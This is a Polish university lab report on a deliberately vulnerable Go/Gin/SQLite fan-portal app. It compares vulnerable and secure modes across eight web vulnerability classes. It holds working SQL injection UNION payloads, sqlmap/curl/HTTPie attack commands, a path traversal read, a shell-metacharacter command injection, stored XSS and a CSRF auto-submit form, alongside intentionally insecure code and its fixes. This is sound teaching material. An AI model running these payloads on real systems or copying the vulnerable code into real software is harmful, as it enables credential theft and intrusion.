# MikuMiku Fan Hub - podatności jako funkcjonalności aplikacji

**Przedmiot:** Bezpieczeństwo Aplikacji Internetowych
**Uczelnia:** Politechnika Świętokrzyska w Kielcach
**Projekt:** aplikacja laboratoryjna Go/Gin/SQLite z trybem vulnerable/secure
**Autorzy:** Mateusz Misiak, Kamil Erbel
**Grupa:** 1IZ21B
**Charakter pracy:** projekt laboratoryjny z bezpieczeństwa aplikacji internetowych
**Data finalizacji:** 2026-05-30

## Spis treści

- Streszczenie
- Spis materiałów dokumentacyjnych
- Cel i charakter projektu
- Zakres etyczny i środowisko testowe
- Wdrożona funkcjonalność aplikacji
- Organizacja pracy i odpowiedzialność
- Architektura funkcjonalna
- Mapa funkcji i podatności
- Dokumentacja ekranów
- Scenariusze podatności
- Rozszerzone przebiegi ataków na faktycznych funkcjach
- Atak z użyciem narzędzia zewnętrznego
- Fragmenty kodu implementacji
- Diagramy wygenerowane z Mermaid
- Testy i weryfikacja
- Literatura i źródła
- Wnioski i dalsze rekomendacje

## Spis materiałów dokumentacyjnych

## Streszczenie

Przedmiotem projektu jest aplikacja internetowa **MikuMiku Fan Hub** przygotowana jako środowisko laboratoryjne do analizy podatności webowych. System ma formę fanowskiego portalu o Vocaloid, anime, cosplayu i fanarcie. Użytkownik może przeglądać wpisy społeczności, wyszukiwać materiały w bibliotece, komentować posty, aktualizować profil, korzystać z katalogu członków, podglądać pliki w fanart vault oraz sprawdzać dostępność hosta streamu.

Projekt nie jest zbiorem odrębnych ekranów testowych. Podatności zostały umieszczone w praktycznych funkcjach aplikacji, czyli w miejscach, w których podobne błędy mogłyby pojawić się w rzeczywistym portalu społecznościowym. Przełącznik `SECURITY_ENABLED` pozwala porównać zachowanie tej samej funkcji w dwóch trybach. W trybie vulnerable błędy są celowo obecne w normalnych ścieżkach aplikacji, natomiast w trybie secure te same operacje pozostają dostępne, ale dane wejściowe są walidowane, parametryzowane albo traktowane jako zwykły tekst.

Zakres obejmuje osiem klas podatności: SQL Injection, Stored XSS, Broken Authentication, Broken Access Control/IDOR, CSRF, Sensitive Data Exposure, Path Traversal/LFI oraz Command Injection. Dla każdej klasy opisano poprawne użycie funkcji, metodę wywołania ataku, wynik w trybie vulnerable oraz zachowanie po przełączeniu aplikacji w tryb secure. Najbardziej rozbudowany scenariusz dotyczy SQL Injection w wyszukiwarce `Vocaloid library`, ponieważ pokazuje pełen łańcuch: zwykłe wyszukiwanie, sondę logiczną, rozpoznanie liczby kolumn, enumerację schematu SQLite, wyciek tabeli `users`, odczyt ukrytych draftów oraz potwierdzenie podatności narzędziem `sqlmap`.


## Cel i charakter projektu

Celem projektu było wykonanie kompletnej aplikacji laboratoryjnej, która pozwala przeprowadzić kontrolowane testy bezpieczeństwa na realistycznych funkcjach. Założeniem nie było ukrywanie podatności w osobnych ekranach testowych, tylko pokazanie, że ten sam błąd implementacyjny może wystąpić w funkcji użytecznej dla użytkownika końcowego.

Aplikacja została przygotowana w technologii Go, Gin, SQLite, Templ, HTMX i Tailwind CSS. Tryb vulnerable oraz secure działają na tej samej aplikacji i tych samych trasach użytkowych. Różnica znajduje się po stronie interpretacji danych wejściowych, autoryzacji, obsługi tokenów CSRF, przechowywania haseł i sposobu wykonywania komend systemowych.

W warstwie wizualnej projekt otrzymał spójną identyfikację **MikuMiku Fan Hub**. Normalne ekrany aplikacji zawierają motyw Vocaloid/otaku, fanartowy pasek nagłówka, miniatury graficzne i zachowaną funkcjonalność laboratoryjną: przełącznik vulnerable/secure, inspektor żądań, oś prób ataku oraz podręczną listę payloadów.

## Zakres etyczny i środowisko testowe

Wszystkie testy wykonano w kontrolowanym środowisku lokalnym na aplikacji przygotowanej specjalnie na potrzeby przedmiotu **Bezpieczeństwo Aplikacji Internetowych**. Zakres obejmował wyłącznie własny kod projektu, lokalną bazę SQLite oraz lokalne endpointy uruchamiane na adresach `127.0.0.1` i `localhost`. Nie wykonywano testów na cudzych systemach, publicznych usługach ani adresach należących do podmiotów zewnętrznych.

Podejście przyjęte w projekcie odpowiada zasadzie bezpiecznego laboratorium: podatności są celowo wprowadzone w trybie vulnerable, ale ich użycie ma charakter dydaktyczny i jest ograniczone do demonstracji mechanizmu błędu. Tryb secure pokazuje właściwe zabezpieczenia tej samej funkcji, bez zmiany ścieżki użytkowej. Dzięki temu materiał pozwala porównać konsekwencje błędnej implementacji i efekt naprawy bez ryzyka naruszenia obcych zasobów.

```bash
DB_PATH=/tmp/bai-lab.db PORT=:8080 SECURITY_ENABLED=false go run main.go
DB_PATH=/tmp/bai-lab.db PORT=:8080 SECURITY_ENABLED=true  go run main.go
```

W raporcie wykorzystano narzędzia `sqlmap`, `curl` i `HTTPie` wyłącznie jako klientów testujących lokalną aplikację. Narzędzia te nie były używane do skanowania Internetu ani systemów produkcyjnych.

## Wdrożona funkcjonalność aplikacji

W finalnej wersji wdrożono następujące funkcje:

- `Vocaloid library search`: poprawnie wyszukuje wpisy; w trybie vulnerable pokazuje SQL Injection przez konkatenację SQL; w trybie secure używa zapytań parametryzowanych.
- `Fan post comments`: poprawnie zapisuje komentarze; w trybie vulnerable renderuje raw HTML; w trybie secure escapuje treść użytkownika.
- `Login`: poprawnie tworzy sesję po podaniu hasła; w trybie vulnerable ignoruje hasło dla istniejącego loginu; w trybie secure używa bcrypt i limitu błędnych prób.
- `Moderation queue`: poprawnie pozwala usuwać własne wpisy albo wpisy jako admin; w trybie vulnerable brakuje sprawdzania właściciela; w trybie secure sprawdzany jest autor albo rola admina.
- `Profile notification settings`: poprawnie zmienia email powiadomień; w trybie vulnerable brakuje tokena CSRF; w trybie secure token musi zgadzać się z cookie.
- `Member directory`: poprawnie pokazuje metadane kont; w trybie vulnerable ujawnia hasła jawne w DB; w trybie secure przechowuje skróty bcrypt.
- `Fanart vault preview`: poprawnie podgląda pliki z `uploads/`; w trybie vulnerable pozwala na `../`; w trybie secure ścieżka jest normalizowana i ograniczona do katalogu uploadów.
- `Stream relay check`: poprawnie wykonuje test `ping`; w trybie vulnerable używa `sh -c` z inputem; w trybie secure wykonuje `exec.Command` bez powłoki.

Główne ścieżki użytkowe aplikacji:

```go
router.GET("/ui/library", h.PageSearch())
router.GET("/ui/profile", h.ProfileSettings())
router.POST("/ui/profile", h.ProfileSettings())
router.GET("/ui/moderation", h.PageIDOR())
router.GET("/ui/members", h.PageDBExpose())
router.GET("/ui/gallery", h.PagePathTraversal())
router.GET("/ui/stream-check", h.PageCmdInjection())
```

Każda z tych ścieżek ma sens użytkowy bez ataku. Dopiero po wprowadzeniu spreparowanych danych wejściowych widoczna jest różnica między trybem vulnerable i secure.

## Organizacja pracy i odpowiedzialność

Projekt wykonano w zespole dwuosobowym.

| Osoba | Zakres odpowiedzialności |
|---|---|
| Mateusz Misiak | implementacja backendu Go/Gin, trasy vulnerable/secure, integracja SQLite, scenariusze SQL Injection, testy integracyjne, generowanie PDF/DOCX |
| Kamil Erbel | warstwa UI/Templ/Tailwind, przygotowanie ekranów funkcjonalnych, opis scenariuszy manualnych, diagramy, zrzuty ekranów i redakcja sprawozdania |

Podział pracy miał charakter praktyczny: jedna osoba odpowiadała głównie za logikę serwerową i kontrolę podatności, druga za warstwę prezentacji, dokumentację i materiał dowodowy. Obie osoby uczestniczyły w weryfikacji działania aplikacji oraz porównaniu zachowania vulnerable/secure.

Seed bazy zawiera konta `admin` i `user1`, wpisy opublikowane, wpis roboczy administratora oraz komentarze. Dzięki temu ataki IDOR, SQL Injection, Stored XSS i Sensitive Data Exposure można przeprowadzić na danych, które są powiązane z normalnym działaniem portalu.

## Architektura funkcjonalna


Wersja funkcjonalna nadal korzysta z tej samej architektury: Gin jako router HTTP, warstwa handlers, warstwa service, SQLite oraz Templ jako system widoków. Zmieniła się głównie semantyka UI i mapowanie tras.



## Mapa funkcji i podatności



Poniższa mapa pokazuje, że podatności nie są osobnymi ćwiczeniami, tylko słabymi punktami typowych funkcji:





## Dokumentacja ekranów i poprawne użycie aplikacji

### Fan posts



Widok `Fan posts` jest główną tablicą społeczności. Przy poprawnym użyciu użytkownik przegląda opublikowane wpisy, dodaje własny post i może przejść do szczegółów wpisu. Formularz przyjmuje tytuł, treść oraz opcjonalny załącznik. Bez ataku ekran działa jak typowy moduł blogowy: nowe wpisy trafiają na listę, a użytkownik widzi autora i status publikacji.

### Vocaloid library search



Wyszukiwarka biblioteki służy do odnajdywania wpisów po tytule i treści. Poprawny input, np. `Miku`, zwraca publiczne materiały pasujące do frazy. W trybie podatnym ta sama funkcja jest miejscem SQL Injection, ponieważ serwer dokleja treść pola do zapytania SQL. W trybie bezpiecznym używany jest placeholder `?`, więc wyszukiwanie pozostaje zwykłą operacją tekstową.

### Security map



Mapa bezpieczeństwa jest zestawieniem funkcji i odpowiadających im klas podatności. Ekran porządkuje opis projektu: dla każdej funkcji wskazuje metodę wywołania, skutek w trybie podatnym oraz rezultat po naprawie.

### Member directory



Katalog członków prezentuje wewnętrzny widok kont, ról i adresów email. Bez ataku służy jako panel utrzymaniowy. W trybie vulnerable ujawnia jednak, że kolumna `password_hash` zawiera hasła jawne; w trybie secure widoczne są skróty bcrypt.

### Fanart vault preview



Fanart vault służy do podglądu plików załączonych do wpisów. Poprawna nazwa pliku powinna wskazywać zasób z katalogu `uploads/`. W trybie podatnym parametr `name` pozwala wyjść poza ten katalog, a w trybie secure ścieżka jest normalizowana i sprawdzana.

### Stream relay health check



Stream relay health check sprawdza, czy host streamu odpowiada na `ping`. Poprawny input, np. `127.0.0.1`, zwraca wynik diagnostyki sieciowej. W trybie podatnym wartość pola trafia do `sh -c`, więc metaznaki powłoki wykonują dodatkowe komendy. W trybie secure host przechodzi walidację i jest przekazywany do `exec.Command` bez shella.

### Profile notification settings



Zmiana maila powiadomień jest normalną operacją zmiany stanu. Poprawny użytkownik wpisuje nowy adres i wysyła formularz. W trybie podatnym brakuje tokena CSRF, więc taki sam POST może zostać wysłany przez obcą stronę. W trybie secure formularz zawiera token, który musi zgadzać się z cookie.

### Moderation queue



Kolejka moderacyjna pokazuje akcję usunięcia wpisu. W poprawnym scenariuszu autor usuwa własny post albo administrator usuwa dowolny wpis. W trybie podatnym wystarczy być zalogowanym, aby usunąć cudzy post. W trybie bezpiecznym serwer sprawdza autora albo rolę admina.



## Scenariusze podatności

W tej części opisano przebieg testów manualnych wykonanych na funkcjach aplikacji. Każdy scenariusz ma ten sam układ: najpierw przedstawiono poprawne użycie funkcji, następnie wektor ataku w trybie vulnerable, a na końcu zachowanie tej samej funkcji po przełączeniu aplikacji w tryb secure.

## Rozszerzone przebiegi ataków na faktycznych funkcjach

### A. SQL Injection w wyszukiwarce Vocaloid library

**Funkcja strony:** użytkownik korzysta z `Library`, aby wyszukać posty, tagi, producentów i notatki o utworach.

**Poprawne użycie:** użytkownik wpisuje `Miku`, `Project DIVA` albo `cosplay`. Aplikacja zwraca tylko opublikowane wpisy pasujące do tytułu albo treści. Wynik jest listą fan postów, a input nie powinien mieć wpływu na strukturę zapytania SQL.

**Atak w trybie vulnerable:**

1. Użytkownik otwiera `/ui/library`.
2. Najpierw wykonuje zwykłe wyszukiwanie, np. `Miku`, żeby pokazać, że to normalna funkcja katalogu.
3. Następnie atakujący wykonuje sondę logiczną. To nie jest prosta tautologia, tylko pytanie zadane bazie: czy istnieje użytkownik `admin`, którego sekret zaczyna się od litery `a`:

```sql
zz' OR EXISTS(SELECT 1 FROM users WHERE username='admin' AND substr(password_hash,1,1)='a') --
```

4. W trybie vulnerable wyszukiwarka nagle zwraca rekordy, mimo że fraza `zz` normalnie niczego nie znajduje. Atakujący wie, że potrafi wykonywać warunki zależne od tabeli `users`.
5. Następnie atakujący używa `UNION` do rozpoznania schematu SQLite:

```sql
zz' UNION SELECT 1, name, sql, 1, '', '', '' FROM sqlite_master WHERE type='table' --
```

6. Przeglądarka wysyła żądanie:

```http
GET /ui/library?q=zz' UNION SELECT 1, name, sql, 1, '', '', '' FROM sqlite_master WHERE type='table' --
```

7. W wyniku widać nazwy tabel oraz instrukcje `CREATE TABLE`, np. `blog`, `users`, `comments`. To jest etap rozpoznania: atakujący wie już, że warto celować w tabelę `users`.
8. Drugi payload wyciąga rekordy użytkowników, podstawiając `username` jako tytuł wyniku, a hasło/hash i email jako treść:

```sql
zz' UNION SELECT id, '[user] ' || username,
    'role=' || role || ' email=' || email || ' secret=' || password_hash,
    1, username, '', ''
FROM users --
```

9. Trzeci payload pokazuje wyciek danych nieopublikowanych. Normalna wyszukiwarka powinna pokazywać tylko `published = 1`, ale podatna ścieżka pozwala dobrać dane bezpośrednio z tabeli `blog`:

```sql
zz' UNION SELECT id, '[draft] ' || title, post_content, published, author_username, '', ''
FROM blog WHERE published=0 --
```

10. W trybie vulnerable warstwa serwisowa buduje SQL przez konkatenację.

**Listing A.1 - kod niezabezpieczony: SQL budowany przez konkatenację**

```go
sqlQuery := "SELECT id, title, post_content, published, " +
    "COALESCE(author_username, ''), COALESCE(attachment_path, ''), COALESCE(attachment_name, '') " +
    "FROM blog WHERE title LIKE '%" + query + "%' OR post_content LIKE '%" + query + "%'"
rows, err := s.db.Query(sqlQuery)
```

11. Payload zamyka wzorzec `LIKE`, dopina własny warunek lub `UNION SELECT` i komentuje resztę oryginalnego zapytania. W efekcie zwykła funkcja biblioteki zamienia się w kanał odczytu struktury bazy, kont użytkowników oraz ukrytych wpisów.

**Warianty rozszerzone:**

Kolumny i kształt zapytania:

```sql
zz' ORDER BY 8 --
```

W trybie vulnerable aplikacja zwraca błąd SQL z informacją o niepoprawnym indeksie kolumny. To pokazuje, że atakujący nie strzela losowo, tylko rozpoznaje liczbę kolumn potrzebną do późniejszego `UNION SELECT`.

Jednowierszowy raport o bazie:

```sql
zz' UNION SELECT 9000, '[intel] database map',
    'users=' || (SELECT COUNT(*) FROM users) ||
    ' tables=' || (SELECT group_concat(name, ', ') FROM sqlite_master WHERE type='table'),
    1, 'sqli-bot', '', '' --
```

Wynik wygląda jak zwykły rekord wyszukiwarki, ale treść została zbudowana przez podzapytania SQL. Atakujący dostaje liczbę użytkowników i listę tabel w jednym wierszu.

Fingerprint silnika bazy:

```sql
zz' UNION SELECT 9001, '[fingerprint] SQLite ' || sqlite_version(),
    sqlite_source_id(), 1, 'sqli-bot', '', '' --
```

Ten payload pokazuje wersję SQLite i identyfikator źródłowy. W realnym incydencie taki fingerprint pomaga dobrać dalsze techniki pod konkretny silnik.

Pivot z konta administratora do ukrytych draftów:

```sql
zz' UNION SELECT 9002, '[pivot] ' || username || ' owns drafts',
    (SELECT group_concat(title, ' | ') FROM blog WHERE published=0),
    1, username, '', ''
FROM users WHERE role='admin' --
```

Ten wariant pokazuje pełny wpływ podatności: wynik wygląda jak rekord powiązany z administratorem, a w treści pojawia się lista nieopublikowanych wpisów.



**Ten sam krok w trybie secure:**

1. Użytkownik zostaje na tej samej funkcji `/ui/library`.
2. Wpisuje te same payloady: `ORDER BY`, sonda logiczna, `sqlite_master`, `users`, fingerprint, raport bazy i ukryty draft.
3. Serwer używa parametru `?`, więc każdy payload jest tekstem w `LIKE`, a nie składnią SQL.

**Listing A.2 - kod zabezpieczony: parametryzacja zapytania**

```go
pattern := "%" + query + "%"
rows, err := s.db.Query(`
    SELECT id, title, post_content, published,
           COALESCE(author_username, ''),
           COALESCE(attachment_path, ''),
           COALESCE(attachment_name, '')
    FROM blog
    WHERE published = 1
      AND (title LIKE ? OR post_content LIKE ?)
`, pattern, pattern)
```



**Ocena rezultatu:** naprawa nie ukrywa pola wyszukiwania i nie zmienia ścieżki użytkownika. Ta sama funkcja działa dalej, ale input nie może już zmienić struktury zapytania SQL. Wersja secure blokuje cały łańcuch: rozpoznanie liczby kolumn, enumerację schematu, fingerprint silnika, wyciek użytkowników i wyciek draftów.

### Atak z użyciem narzędzia zewnętrznego

SQL Injection zweryfikowano dodatkowo przy użyciu narzędzia `sqlmap`. Test wykonano na publicznym endpointcie wyszukiwarki, czyli na tej samej funkcji, której używa ekran `Vocaloid library`.

Komenda użyta w trybie vulnerable:

```bash
sqlmap -u "http://127.0.0.1:8099/api/search?q=Miku" \
  --batch --level=2 --risk=1 --dbms=SQLite --technique=BEU \
  --flush-session --tables
```

Wynik narzędzia potwierdził, że parametr `q` jest podatny. `sqlmap` wykrył wariant boolean-based blind oraz `UNION query`, rozpoznał 7 kolumn w zapytaniu, zidentyfikował backend jako SQLite i pobrał listę tabel: `blog`, `comments`, `sqlite_sequence`, `users`.



Ten sam test po przełączeniu aplikacji w tryb secure nie znalazł podatnego parametru. Narzędzie zakończyło pracę komunikatem, że testowane parametry nie wyglądają na podatne. Jest to zgodne z implementacją: payloady pozostają wartością parametru `LIKE`, a nie składnią SQL.

Fragment wyniku dla trybu secure:

```text
[INFO] testing for SQL injection on GET parameter 'q'
[WARNING] GET parameter 'q' does not seem to be injectable
[ERROR] all tested parameters do not appear to be injectable
```

Znaczenie tego testu jest praktyczne: ręczny scenariusz pokazuje dokładnie, jak działa atak i skąd biorą się wyniki, a `sqlmap` potwierdza, że podatność jest wykrywalna również narzędziem automatycznym używanym w testach penetracyjnych. W raporcie zachowano oba podejścia, ponieważ samo narzędzie nie wyjaśnia mechanizmu błędu, a ręczne przejście przez payloady nie zastępuje zewnętrznej weryfikacji.

**Weryfikacja żądań przy użyciu curl**

Drugim zewnętrznym klientem użytym w projekcie był `curl`. Ten etap jest istotny, ponieważ pokazuje, że podatności nie są zależne od przeglądarki, formularza HTML ani podpowiedzi w interfejsie. Atakujący może odpytać ten sam backend bezpośrednio przez HTTP i uzyskać ten sam rezultat, jeżeli warstwa serwisowa buduje zapytanie SQL lub polecenie systemowe w sposób niebezpieczny.

Najpierw wykonano zwykłe, poprawne wywołanie wyszukiwarki biblioteki:

```bash
curl -sG "http://127.0.0.1:8102/api/search" \
  --data-urlencode "q=Miku" \
  | jq ".mode, (.results[] | {id,title,author_username})"
```

Wynik poprawnego użycia zawierał zwykły wpis fanowski `Miku Expo setlist notes`. Następnie tym samym endpointem przesłano payload `UNION SELECT`, który utworzył sztuczny rekord wynikowy z informacją o liczbie użytkowników i nazwach tabel SQLite. Kolejny wariant odczytał rekordy z tabeli `users`, w tym role, adresy e-mail i jawne sekrety przechowywane w trybie vulnerable.

```bash
curl -sG "http://127.0.0.1:8102/api/search" \
  --data-urlencode "q=zz' UNION SELECT 9000, '[curl intel] database map',
    'users=' || (SELECT COUNT(*) FROM users) ||
    ' tables=' || (SELECT group_concat(name, ', ')
                   FROM sqlite_master WHERE type='table'),
    1, 'curl-probe', '', '' --" \
  | jq ".results[0]"
```

Ten sam klient wykorzystano również do funkcji `Stream relay check`, czyli sprawdzania hosta przez endpoint ping. W trybie vulnerable parametr `host` trafia do `sh -c`, dlatego po średniku udało się uruchomić dodatkowe polecenie `uname -s`. W odpowiedzi pojawił się znacznik `BAI_CHAIN_MARKERDarwin`, co potwierdza wykonanie fragmentu pochodzącego od użytkownika. Endpoint secure odrzucił identyczny input kodem HTTP 400, ponieważ walidacja dopuszcza tylko litery, cyfry, kropki i myślniki.



**Weryfikacja żądań przy użyciu HTTPie**

Trzecim narzędziem użytym do weryfikacji był `HTTPie`. W odróżnieniu od `sqlmap` nie automatyzuje ono wykrywania podatności, ale dobrze nadaje się do czytelnego przedstawienia żądania i odpowiedzi HTTP. W raporcie wykorzystano je jako drugi niezależny klient HTTP obok `curl`, aby pokazać, że podatności są właściwością endpointów backendu, a nie konkretnego formularza w przeglądarce.

Poprawne wywołanie wyszukiwarki przez HTTPie:

```bash
http --ignore-stdin --print=hb GET :8114/api/search q==Miku
```

Wariant SQL Injection wykonany przez HTTPie:

```bash
http --ignore-stdin --print=hb GET :8114/api/search \
  q=="zz' UNION SELECT id, '[httpie user] ' || username,
      'role=' || role || ' email=' || email || ' secret=' || password_hash,
      1, username, '', '' FROM users --"
```

Tym samym narzędziem sprawdzono również Path Traversal w funkcji `Fanart vault`. Endpoint vulnerable zwrócił fragment pliku `internal/db/db.go`, natomiast endpoint secure odrzucił identyczną ścieżkę komunikatem `invalid filename`.

```bash
http --ignore-stdin --print=hb GET :8114/api/files-vulnerable name==../internal/db/db.go
http --ignore-stdin --print=hb GET :8114/api/files-secure     name==../internal/db/db.go
```



**Skan DAST przy użyciu OWASP ZAP w Dockerze**

Jako uzupełnienie ręcznych żądań i `sqlmap` uruchomiono pasywny skan DAST przy użyciu OWASP ZAP w oficjalnym obrazie Docker. Skan wykonano na lokalnej aplikacji w trybie vulnerable. ZAP nie zastępuje ręcznej analizy podatności, ale dobrze pokazuje, które problemy są widoczne dla zewnętrznego skanera po przejściu po ekranach i endpointach aplikacji.

Komenda uruchamiająca ZAP:

```bash
docker run --rm \
  -v "$PWD/docs/generated/zap:/zap/wrk:rw" \
  -t ghcr.io/zaproxy/zaproxy:stable \
  zap-baseline.py \
  -t http://host.docker.internal:8114/ui/library \
  -r zap-baseline-report.html \
  -J zap-baseline-report.json \
  -w zap-baseline-report.md \
  -I
```

Najważniejsze wyniki skanu:

| Wskaźnik ZAP | Wynik |
|---|---|
| Liczba odwiedzonych URL | 60 |
| Nowe błędy krytyczne | 0 |
| Nowe ostrzeżenia | 14 |
| Reguły zakończone powodzeniem | 53 |
| Raporty | HTML, JSON, Markdown |

ZAP wykrył między innymi `Source Code Disclosure - SQL` na endpointach związanych z wyszukiwarką, brak tokenów anty-CSRF w formularzach trybu podatnego, brak nagłówka CSP, brak `X-Content-Type-Options` oraz potencjalnie kontrolowane atrybuty HTML w parametrach wejściowych. Wynik jest spójny z projektem: aplikacja uruchomiona w trybie vulnerable celowo eksponuje mechanizmy, które w trybie secure są ograniczane lub neutralizowane.

Fragment podsumowania z konsoli ZAP:

```text
Total of 60 URLs
FAIL-NEW: 0    WARN-NEW: 14    PASS: 53

WARN-NEW: Source Code Disclosure - SQL [10099] x 3
WARN-NEW: Absence of Anti-CSRF Tokens [10202] x 5
WARN-NEW: User Controllable HTML Element Attribute (Potential XSS) [10031] x 3
WARN-NEW: Content Security Policy (CSP) Header Not Set [10038] x 5
WARN-NEW: X-Content-Type-Options Header Missing [10021] x 5
```



### B. Stored XSS w komentarzach fan postów

**Funkcja strony:** użytkownicy komentują fan posty.

**Poprawne użycie:** użytkownik wpisuje zwykły komentarz, np. `Świetna setlista, dodajcie jeszcze link do Magical Mirai`. Komentarz jest zapisywany i wyświetlany pod wpisem jako treść tekstowa.

**Atak w trybie vulnerable:**

1. Atakujący otwiera post, np. `/ui/posts/view/1`.
2. W formularzu komentarza wpisuje HTML/JavaScript:

```html
<h2 style="color:#be123c">XSS-PWNED-vulnerable</h2>
```

3. Bardziej efektowny wariant pokazuje, że XSS to nie tylko `alert`, ale możliwość przejęcia interfejsu czytelnika. Poniższy komentarz dodaje fałszywy ekran ponownego logowania na wierzchu strony:

```html
' +
  '<h1>Session expired</h1><p>Fake re-login overlay injected from a comment.</p></div>'
)">
```

4. Formularz wysyła:

```http
POST /ui/posts/view/1/comments
Content-Type: application/x-www-form-urlencoded

body=<h2 style="color:#be123c">XSS-PWNED-vulnerable</h2>
```

5. W trybie vulnerable komentarz jest zapisany i później renderowany jako raw HTML.

**Listing B.1 - kod niezabezpieczony: raw HTML w komentarzu**

```templ
if securityEnabled {
    <p class="text-sm text-slate-800">{ c.Body }</p>
} else {
    <div class="text-sm text-slate-800">@templ.Raw(c.Body)</div>
}
```


**Ten sam krok w trybie secure:**

1. Użytkownik wysyła taki sam komentarz i payload z fałszywą nakładką.
2. Serwis zapisuje go po escapowaniu albo oczyszczeniu.
3. Widok renderuje go jako tekst, nie jako HTML.

**Listing B.2 - kod zabezpieczony: oczyszczenie i escapowanie treści**

```go
func (s *Service) CreateComment(postID int, author, body string) (int64, error) {
	stored := body
	if s.SecurityEnabled() {
		stored = html.EscapeString(stripUnsafeHTML(body))
	}
	res, err := s.db.Exec(
		"INSERT INTO comments (post_id, author, body) VALUES (?, ?, ?)",
		postID, author, stored,
	)
	if err != nil {
		return 0, err
	}
	return res.LastInsertId()
}
```



**Ocena rezultatu:** podatność wynika ze sposobu renderowania treści użytkownika. Tryb secure zachowuje funkcję komentarzy, ale uniemożliwia wykonanie HTML/JavaScript w przeglądarce czytelnika.

### C. CSRF w ustawieniach profilu

**Funkcja strony:** użytkownik zmienia email powiadomień w profilu. Endpoint funkcji to `POST /ui/profile`.

**Poprawne użycie:** zalogowany użytkownik wpisuje nowy adres email w formularzu profilu. Po wysłaniu aplikacja zapisuje adres jako email powiadomień.

**Atak w trybie vulnerable:**

1. Ofiara jest zalogowana w MikuMiku Fan Hub.
2. Atakujący przygotowuje stronę z formularzem:

```html
<form method="POST" action="http://localhost:8080/ui/profile">
  <input name="new_email" value="attacker+csrf@evil.test">
</form>
<script>document.forms[0].submit()</script>
```

3. Przeglądarka ofiary wysyła cookie sesyjne razem z żądaniem.
4. W trybie vulnerable endpoint `/ui/profile` nie sprawdza tokena CSRF i aktualizuje email.

**Listing C.1 - kod niezabezpieczony: brak walidacji CSRF**

```go
// vulnerable path: no CSRF token check
newEmail := c.PostForm("new_email")
if err := h.svc.UpdateUserEmail(username, newEmail); err != nil {
    // error handling
}
```



**Ten sam krok w trybie secure:**

1. Ofiara nadal korzysta z tej samej funkcji `/ui/profile`.
2. Atakujący wysyła identyczny sfałszowany POST bez tokena.
3. Handler w trybie secure wymaga zgodności tokena z formularza i cookie.

**Listing C.2 - kod zabezpieczony: porównanie tokena z formularza i cookie**

```go
formToken := c.PostForm("csrf_token")
cookieToken, cookieErr := c.Cookie(csrfCookieName)
if cookieErr != nil || formToken == "" || formToken != cookieToken {
    renderHTML(c, http.StatusForbidden, "csrf_secure", component)
    return
}
```



**Ocena rezultatu:** `/ui/profile` pozostaje jedną funkcją aplikacji. Różnica między trybami polega na weryfikacji intencji użytkownika tokenem CSRF, a nie na przeniesieniu operacji do innego endpointu.

### D. IDOR/Broken Access Control w kolejce moderacyjnej

**Funkcja strony:** moderator lub użytkownik widzi kolejkę wpisów i może usuwać posty. Funkcja używa endpointu `POST /ui/posts/delete/:id`.

**Poprawne użycie:** autor usuwa własny wpis, a administrator usuwa wpis dowolnego użytkownika w ramach moderacji.

**Atak w trybie vulnerable:**

1. Użytkownik `user1` loguje się na konto zwykłego członka.
2. W kolejce moderacyjnej lub przez zmodyfikowane żądanie próbuje usunąć post admina:

```http
POST /ui/posts/delete/1
Cookie: bai_auth_user=user1
```

3. W trybie vulnerable aplikacja sprawdza tylko, czy użytkownik jest zalogowany. Nie sprawdza właściciela zasobu.

**Listing D.1 - kod niezabezpieczony: usunięcie po samym zalogowaniu**

```go
if !h.requireLoginUI(c, "/ui/login?err=1&msg=Please+log+in+to+delete+posts") {
    return
}
h.svc.DeletePost(id)
```



**Ten sam krok w trybie secure:**

1. `user1` wysyła ten sam POST na ten sam endpoint.
2. Handler odczytuje autora posta i rolę użytkownika.
3. Jeśli użytkownik nie jest autorem ani adminem, operacja zostaje zablokowana.

**Listing D.2 - kod zabezpieczony: kontrola właściciela albo roli admina**

```go
if h.securityEnabled() {
    allowed, authErr := h.canDeletePost(username, id)
    if authErr != nil || !allowed {
        c.Redirect(http.StatusSeeOther, "/ui/posts?err=1&msg=You+can+delete+only+your+own+posts")
        return
    }
}
```



**Ocena rezultatu:** poprawka znajduje się po stronie serwera. Samo ukrycie przycisku w UI nie wystarcza, ponieważ atakujący może wysłać POST ręcznie.

### E. Sensitive Data Exposure w katalogu członków

**Funkcja strony:** wewnętrzny widok `Members` pokazuje konta, role i adresy email. To panel utrzymaniowy aplikacji.

**Poprawne użycie:** administrator albo maintainer przegląda listę członków, sprawdza role i adresy email. W takim scenariuszu widok nie powinien ujawniać sekretów logowania.

**Problem w trybie vulnerable:**

1. Aplikacja seeduje i przechowuje hasła jako tekst jawny.
2. Widok członków pokazuje, że kolumna `password_hash` w rzeczywistości zawiera hasła.
3. Ten sam problem byłby widoczny także przy wycieku `app.db` przez SQLi albo Path Traversal.

**Listing E.1 - kod niezabezpieczony: hasło zapisane jako tekst jawny**

```go
func (s *Service) preparePassword(plain string) (string, error) {
	if !s.SecurityEnabled() {
		// VULNERABLE: plaintext storage (Sensitive Data Exposure)
		return plain, nil
	}
	hash, err := bcrypt.GenerateFromPassword([]byte(plain), bcrypt.DefaultCost)
	if err != nil {
		return "", err
	}
	return string(hash), nil
}
```

**Warianty rozszerzone:**

1. **Credential replay:** po odczytaniu tabeli `users` atakujący próbuje użyć jawnych wartości z kolumny `password_hash` jako haseł w `/ui/login`. W trybie vulnerable jest to szczególnie groźne, bo przechowywany sekret jest dokładnie tym, czego wymaga formularz logowania.
2. **Łańcuch SQLi + dane wrażliwe:** payload SQL Injection z biblioteki może wyświetlić `username`, `email`, `role` i `password_hash` jako wynik wyszukiwarki. Oznacza to, że błąd w polu wyszukiwania prowadzi bezpośrednio do ujawnienia danych uwierzytelniających.
3. **Łańcuch LFI + baza SQLite:** Path Traversal na `../app.db` próbuje pobrać bazę. Jeżeli baza zawiera tekst jawny, sam odczyt pliku staje się wyciekiem haseł.



**Tryb secure:**

1. Hasła są hashowane bcryptem.
2. Wyciek bazy nie ujawnia bezpośrednio haseł.
3. Użytkownik nadal może się logować, ale aplikacja porównuje hasło przez `bcrypt.CompareHashAndPassword`.

**Listing E.2 - kod zabezpieczony: bcrypt przed zapisem sekretu**

```go
func encodePasswordForSeed(password string, securityEnabled bool) (string, error) {
	if !securityEnabled {
		return password, nil
	}
	hash, err := bcrypt.GenerateFromPassword([]byte(password), bcrypt.DefaultCost)
	if err != nil {
		return "", err
	}
	return string(hash), nil
}
```



**Ocena rezultatu:** funkcja `Members` pokazuje konsekwencję decyzji z warstwy zapisu danych. Tryb secure nie ukrywa istnienia kont, ale usuwa najgroźniejszy skutek wycieku: możliwość natychmiastowego użycia hasła.

### F. Path Traversal w Fanart vault

